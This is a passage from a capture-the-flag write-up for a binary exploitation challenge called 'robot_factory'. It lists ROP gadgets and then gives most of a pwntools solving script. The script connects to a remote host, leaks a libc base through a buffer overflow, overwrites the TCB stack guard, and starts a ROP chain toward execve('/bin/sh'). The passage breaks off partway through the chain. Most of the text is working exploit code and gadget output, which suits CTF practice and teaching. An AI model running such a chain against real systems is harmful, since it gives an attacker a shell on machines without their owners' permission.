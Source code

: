 ```bash
0x00000000000bfa9a : pop rdx ; idiv bh ; pop rdx ; xor eax, eax ; pop rbp ; pop r12 ; ret
0x000000000011cdeb : pop rdx ; or byte ptr [rcx - 0xa], al ; ret
0x00000000000aac49 : pop rdx ; or dword ptr [rax], eax ; add bh, dh ; ret
0x000000000011c371 : pop rdx ; pop r12 ; ret
0x0000000000162866 : pop rdx ; pop rbx ; ret
0x00000000001056fd : pop rdx ; pop rcx ; pop rbx ; ret
0x0000000000130af2 : pop rdx ; sub byte ptr [rsi], al ; add byte ptr [rax + 0xf], cl ; ret 0xfc3
0x00000000000d27a5 : pop rdx ; test al, 0xf0 ; jne 0xd27d0 ; lea rax, [rdi - 0x10] ; ret
0x00000000000a2529 : pop rdx ; xor eax, eax ; pop rbp ; pop r12 ; ret
```

There is no `pop rdx ; ret` so we will take `pop rdx ; pop r12 ; ret`. We can then complete our solving script.

**NB** : for some reason, `system("/bin/sh")` was not working, probably because of the TCB overwrite, so we will use `execve("/bin/sh", NULL, NULL)`.

## Final solving script

Our final script now looks like this:

```python
elf = ELF('./robot_factory')
libc = ELF('./libc.so.6')

# context.log_level = "DEBUG"

r = remote('167.172.49.117', 30563)
# r = elf.process()

############################ LIBC LEAK ############################
r.sendlineafter(b' (n/s) > ', b's')
r.sendlineafter(b' (a/s/m) > ', b'a')

# Sending 104 bytes to leak the libc
r.sendlineafter(b'1: ', b'A' * 96)
r.sendlineafter(b'2: ', b'B' * 8)

leak = r.recvuntil(b'\n\0', drop=True).split(b' ')[-1]
leak = leak.replace(b'A', b'').replace(b'B', b'')
log.success(f"leak : {leak}")

libc_base = leak.ljust(8, b'\x00')
libc_base = u64(libc_base) - 0x9a00b
log.success(f'glibc base address : {hex(libc_base)}')

############################ GADGETS ############################
ret         = p64(libc_base + 0x025679) # ret
pop_rdi     = p64(libc_base + 0x026b72) # pop rdi ; ret
pop_rsi     = p64(libc_base + 0x027529) # pop rsi ; ret
pop_rdx_rbx = p64(libc_base + 0x11c371) # pop rdx ; pop r12 ; ret

execve_addr = p64(libc_base + libc.sym['execve'])
binsh_addr  = p64(libc_base + next(libc.search(b'/bin/sh')))

######################## OVERFLOW AND ROP ########################
r.sendline(b's')
r.sendlineafter(b' (a/s/m) > ', b'm')

# tcbhead_t.stack_guard overwrite
rop = b'A' * 40

# execve("/bin/sh", NULL, NULL)
rop += pop_rdi
```